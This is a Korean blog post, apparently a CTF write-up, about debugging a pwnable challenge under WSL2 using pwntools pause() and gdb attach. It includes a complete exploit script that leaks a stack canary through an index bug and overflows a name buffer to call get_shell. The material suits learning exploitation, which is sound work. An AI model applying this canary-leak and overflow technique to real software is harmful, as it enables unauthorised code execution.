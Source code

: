 ```yaml
---
layout: post
title:  "Debugging in WSL2"
date:   2020-10-03
categories: ["2020","pwnable","tips"]
update: 2020-10-03
comment: true
tags: [pwnable,tips]
---
```



최근에 `WSL2`를 이용해서 pwnable 문제들을 풀고 있는데 pwnable이 오랜만이라 디버깅할 일이 많다.. 근데 자꾸 디버깅을 빨리빨리 못해서 시간이 끌리는 문제들이 많아서 연습할 겸 정리도 할겸 **Let's go** 😈

> 🚀 많이 배운 짱짱 블로그
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

문제 풀면서 디버깅을 한 과정을 다시 밟아보자.
### 🔍Code

``` c
switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
```

필요한 부분만 가져왔다.

이 문제의 목표는

- `P`로 canary leak
- `E`로 BOF

이다.

쉬운 문제여서 코드 슥슥 짜서 돌렸는데 자꾸 canary값이 틀려서 `*** stack smashing detected ***`가 뜬다. 😭 그래서 디버깅을 해보기로 했다.

### 👀 Debugging

`canary` leak은 쉬우니까 leak한 후에 `BOF`를 하는 과정을 보자.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

gdb로 보면 필요한 값들의 위치를 알 수 있다.

- `name` : `ebp-0x48`
- `name_len` : `ebp-0x90`
- `canary` : `ebp-0x8`

확인해야할 점은 두 가지다.

- `name`에 입력 전 `canary`값
- `name`에 입력 후 `canary`값

이 걸 pwntools를 쓰면서 debugging을 하려면 Linux에서는 `gdb.attach(p)`하면 되는데 `WSL2`에서는 `gdb.attach(p)`가 안 된다.

그래서 코드를 이렇게 짜고:

#### 👓 part of ex.py :

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

다른 터미널에서 `gdb attach <pid>`를 해 줘야 한다.

![image](https://user-images.githubusercontent.com/51329156/94967162-848c6400-0539-11eb-92b6-2e5616c1344a.png)

3번 째 줄에 `pid`값이 나와있다. 저 값을 가지고 다른 터미널에서 `gdb attach 3097`을 해주면 저 프로세스에 gdb가 붙는다.

`gdb`가 저 프로세스에 붙는다고 해서,  코드의 실행이 멈추지 않기 때문에 `pause()`를 하지 않으면 코드가 끝까지 실행되서 종료해 버린다. 그래서 `bp`를 걸고 디버깅을 하고 싶어도 `bp`를 걸 수가 없다. 

그래서 디버깅을 하려면 위 코드처럼 `pause()` 혹은 `raw_input()`으로 코드의 실행을 멈춰서 `bp`를 걸 수 있는 시간을 벌어야 한다.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

#### 👻 Where to `pause()` and `bp`

**ex.py**를 다시 보면

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

1. payload를 보내기 전 후에 `pause()`가 걸려있다. 즉, `gdb`가 프로세스에 붙을 시점에는 `payload`가 전이다. 

2. 위 사진의 어셈블리 코드를 보면 `read()`가 있다. `bp`를 `0x08048864(main+313)`에다가 걸어준다. 

3. 그리고 `c(continue)`를 하면, `gdb` 입장에서는 `read`를 해야 하는데 프로세스가 아직 payload를 보내지 않은 상황이다. 그래서 `pause()`를 풀기 위해 아무 키나 입려해주면 프로세스가 입력을 보내게 되고 `c`가 자동으로 실행해서 `read()`한 상황을 디버깅 할 수 있다.

#### 🧰 Fix

**입력 전 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968353-b3a3d500-053b-11eb-8faf-4f7f5c0d5374.png)

**입력 후 덮어 쓴 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968381-bf8f9700-053b-11eb-8cff-7aee0064cf27.png)

endian이 거꾸로 되어서 들어가 있다. endian을 바꿔서 넣어주면 된다.👍

---

### 🔎 ex.py and shell

``` python
from pwn import *
import sys

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',14195)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

get_shell=e.symbols['get_shell']

canary=""

def canaryLeak(idx):
    p.sendlineafter("> ","P")
    p.recvuntil("Element index : ")
    p.sendline(str(idx))
    p.recv(26)
    return p.recv(2)

def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    
canary+=canaryLeak(128)
canary+=canaryLeak(129)
canary+=canaryLeak(130)
canary+=canaryLeak(131)
canary=int(canary,16)

log.info("CANARY: "+hex(canary))

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

overWrite(0x80,payload)

p.interactive()
```

![image-20201003054737199](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20201003054737199.png)

👏🏻👏🏻👏🏻

❗ 쉬운 문제에 생각보다 시간을 많이 끌렸지만 디버깅 연습은 제대로 된 거 같다. 사실 저번에 친구가 풀으라고 준 pwnable.tw에 `death_note` 풀면서 디버깅을 엄청 많이 했는데, 이제 진짜 잘할 수 있을 거 같다!